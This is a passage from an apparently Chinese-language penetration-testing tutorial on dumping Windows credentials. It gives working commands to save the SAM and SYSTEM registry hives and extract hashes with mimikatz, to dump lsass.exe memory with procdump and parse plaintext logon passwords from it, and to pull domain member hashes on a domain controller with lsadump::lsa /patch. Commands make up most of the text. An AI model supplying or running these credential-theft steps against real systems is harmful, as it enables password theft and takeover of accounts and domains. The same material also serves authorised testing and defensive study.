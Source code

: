 #### 1.2 SAM 表获取 hash

```
#导出SAM数据
reg save HKLM\\SYSTEM SYSTEM
reg save HKLM\\SAM SAM

#使用mimikatz提取hash
lsadump::sam /sam:SAM /system:SYSTEM


```

### 0x02 Procdump+Mimikatz

当 mimikatz 无法在主机上运行时，可以使用微软官方发布的工具 Procdump 导出 lsass.exe:

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp


```

将 lsass.dmp 下载到本地后，然后执行 mimikatz:

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit


```

为了方便复制与查看，可以输出到本地文件里面：

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" > pssword.txt


```

### 0x03 读取域控中域成员 Hash

#### 3.1 域控本地读取

注：得在域控上以域管理员身份执行 mimikatz

方法一：直接执行

```
#提升权限
privilege::debug

抓取密码
lsadump::lsa /patch


```
